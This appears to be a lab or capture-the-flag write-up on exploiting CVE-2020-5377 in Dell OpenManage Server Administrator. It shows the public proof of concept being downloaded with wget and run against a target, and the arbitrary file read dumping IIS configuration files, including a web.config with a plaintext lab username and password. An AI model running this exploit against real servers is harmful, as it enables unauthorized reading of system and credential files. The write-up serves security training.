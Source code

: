 <p>CVE-2020-5377 - Dell OpenManager Server Administrator File Read</p>

<img width="743" height="379" alt="image" src="https://github.com/user-attachments/assets/9fa331d8-66fa-4b81-afad-75e6d5927691" />

<img width="1312" height="430" alt="image" src="https://github.com/user-attachments/assets/edd1d009-c8f3-48e5-8c8c-172c1997ef5e" />

<img width="1898" height="826" alt="image" src="https://github.com/user-attachments/assets/1f321e5e-5198-4110-89cd-e84a11cacf59" />


<p>https://www.cvedetails.com/vulnerability-list/vendor_id-2234/year-2020/Dell.html</p>

<img width="1886" height="293" alt="image" src="https://github.com/user-attachments/assets/83f380e7-77d0-456e-8e6d-4b43feef4604" />

<p>CVE-2020-5377</p>

<img width="1095" height="134" alt="image" src="https://github.com/user-attachments/assets/b36ff2ef-025b-4f8a-9a89-aeae5740f369" />

<p>CVE-2021-21514</p>

<img width="1087" height="118" alt="image" src="https://github.com/user-attachments/assets/33db6388-952c-471f-9d57-648f402945e6" />

<br>

<h3>PoC</h3>

<p>https://rhinosecuritylabs.com/research/cve-2020-5377-dell-openmanage-server-administrator-file-read/?source=post_page-----5b5e4f7fa1ff---------------------------------------</p>

<p>https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2020-5377_CVE-2021-21514</p>p>

```bash
:~/HackSmarterSecurity# wget https://raw.githubusercontent.com/RhinoSecurityLabs/CVEs/refs/heads/master/CVE-2020-5377_CVE-2021-21514/CVE-2020-5377.py
...
CVE-2020-5377.py                100%[=====================================================>]   5.42K  --.-KB/s    in 0s      
:~/HackSmarterSecurity# ~/HackSmarterSecurity# python3 CVE-2020-5377.py AttackIP TargetIP:TargetPort
[-] No server.pem certificate file found. Generating one...
Generating a RSA private key
..................................+++++
....................+++++
writing new private key to 'server.pem'
-----
Session: 6147373C5E0990DC00EF93E09A77DB10
VID: F0350F4112E45309
file > /Windows/System32/inetsrv/Config/applicationHost.config
...
file > C:\inetpub\wwwroot\hacksmartersec\web.config
Reading contents of C:\inetpub\wwwroot\hacksmartersec\web.config:
<configuration>
  <appSettings>
    <add key="Username" value="tyler" />
    <add key="Password" value="IAmA1337h4x0randIkn0wit!" />
  </appSettings>
  <location path="web.config">
    <system.webServer>
      <security>
        <authorization>
          <deny users="*" />
        </authorization>
      </security>
    </system.webServer>
  </location>
</configuration>


```